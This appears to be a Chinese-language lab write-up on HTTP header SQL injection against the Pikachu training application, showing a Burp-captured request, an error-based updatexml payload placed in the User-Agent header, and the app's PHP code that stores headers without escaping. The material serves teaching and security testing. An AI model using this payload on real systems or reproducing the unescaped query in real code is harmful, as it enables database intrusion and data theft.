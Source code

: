 ---

# 什么是 Http Header 注入

有些时候，后台开发人员为了验证客户端头信息(比如常用的 cookie 验证)或者通过 http header 头信息获取客户端的一些信息，比如 useragent、accept 字段等等，会**对客户端的 http header 信息进行获取并使用 SQL 进行处理**，如果此时没有足够的安全考虑则可能会导致基于 http header 的 SQL Inject 漏洞。😨
![sql_header_1](https://i-blog.csdnimg.cn/blog_migrate/27fcfb3e0a10a812b7d791824968e014.png)
如图所示，后台记录了

- ip
- user agent
- http accept
- 端口

用**Brup Suite**抓包，发送到 Repeater 模块，进行下一步操作      
数据包如下：
```http
GET /vul/sqli/sqli_header/sqli_header.php HTTP/1.1
Host: localhost
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Referer: http://localhost/vul/sqli/sqli_header/sqli_header_login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=mqh6eiafgudgijl5g1mb8hpbn0
Connection: close
```

😋 来尝试修改一下

```http
User-Agent: 114514
Accept: 1919810
```

响应：

```
朋友，你好，你的信息已经被记录了:点击退出
你的ip地址:127.0.0.1
你的user agent:114514
你的http accept:1919810
你的端口(本次连接):tcp11427
```

🤮 好臭的响应结果       
可以看到数据包中的 user-agent、accept 字段被获取，可能存在注入点        
🤔 将 User-Agent 字段改成单引号`'`：

```http
User-Agent: '
```

🥵 发送请求，报错了

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,imag' at line 1
```

🧐ok 了，现在来分析一下，猜测这种情况是

- 一次获取了多个数据，
- 每个数据用单引号`'`包裹，
- 应该和**_insert、update 注入.md_**类似，
- 可能使用了`values`函数

```sql
values('$data1','$data2','$data3','$data4','$data5')
```

选择其中一个 data 位置进行注入      
构造以下命令：

```sql
insert into 表名(列名1,列名2,列名3,列名4) values('1' or updatexml(1,concat(0x7e,database()),0) or '','数据2','数据3','数据4');
```

数据 1 的位置就是 payload

```sql
# payload:
1' or updatexml(1,concat(0x7e,database()),0) or '
```

修改数据包，把 payload 放到 User-Agent 字段：

```http
User-Agent: 1' or updatexml(1,concat(0x7e,database()),0) or '
```

![](https://img2023.cnblogs.com/blog/1779065/202212/1779065-20221203110842711-1465449530.png)

- `or`判断会把左右的表达式先执行一遍
- 执行`updatexml()`函数时利用函数报错获取信息
- 把`database()`的位置换成你想要的命令

放一下原代码`pikachu-master\vul\sqli\sqli_header\sqli_header.php`：

```php
$is_login_id=check_sqli_login($link);
if(!$is_login_id){
    header("location:sqli_header_login.php");
}
// $remoteipadd=escape($link, $_SERVER['REMOTE_ADDR']);
// $useragent=escape($link, $_SERVER['HTTP_USER_AGENT']);
// $httpaccept=escape($link, $_SERVER['HTTP_ACCEPT']);
// $httpreferer=escape($link, $_SERVER['HTTP_REFERER']);


//直接获取前端过来的头信息,没人任何处理,留下安全隐患
$remoteipadd=$_SERVER['REMOTE_ADDR'];
$useragent=$_SERVER['HTTP_USER_AGENT'];
$httpaccept=$_SERVER['HTTP_ACCEPT'];
$remoteport=$_SERVER['REMOTE_PORT'];

//这里把http的头信息存到数据库里面去了，但是存进去之前没有进行转义，导致SQL注入漏洞
$query="insert httpinfo(userid,ipaddress,useragent,httpaccept,remoteport) values('$is_login_id','$remoteipadd','$useragent','$httpaccept','$remoteport')";
$result=execute($link, $query);


if(isset($_GET['logout']) && $_GET['logout'] == 1){
    setcookie('ant[uname]','',time()-3600);
    setcookie('ant[pw]','',time()-3600);
    header("location:sqli_header_login.php");
}
```
